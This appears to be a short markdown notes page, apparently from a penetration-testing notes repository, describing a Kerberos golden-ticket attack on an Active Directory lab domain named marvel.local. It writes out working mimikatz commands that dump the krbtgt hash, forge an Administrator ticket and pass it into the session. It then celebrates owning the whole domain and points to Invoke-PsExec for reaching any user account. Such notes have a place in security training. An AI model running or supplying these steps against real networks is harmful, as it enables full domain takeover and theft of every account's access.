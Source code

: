 - - -

## What is this ? :
If this attack is successful that means we have completly compromised the **entire Domain**.

- - -

## Attacking Steps : 

```cmd
mimikatz.exe
mimicatz # lsadump::lsa /inject /name:krbtgt
```

Open your notes/note-pad and....
- [ ] Copy the **SID** of the Domain.
![Imgur](https://i.imgur.com/SdDrRI5.png)

- [ ] Copy the **NTLM** hash.
![Imgur](https://i.imgur.com/t9ZJX0t.png)

```cmd
mimicatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:<Doamin-SID> /krbtgt:<Doamin-Hash> /id:500 /ptt
```

![Imgur](https://i.imgur.com/lJGc3NY.png)

```
mimicatz # misc::cmd
```

![Imgur](https://i.imgur.com/uBYTFz5.png)

###### NOW THE WHOLE DOAMIN IS OURS !!
now Go ahead and download
[Invoke-PsExec](https://github.com/EliteLoser/Invoke-PsExec) to access any user account you want from this **cmd**.

- - -

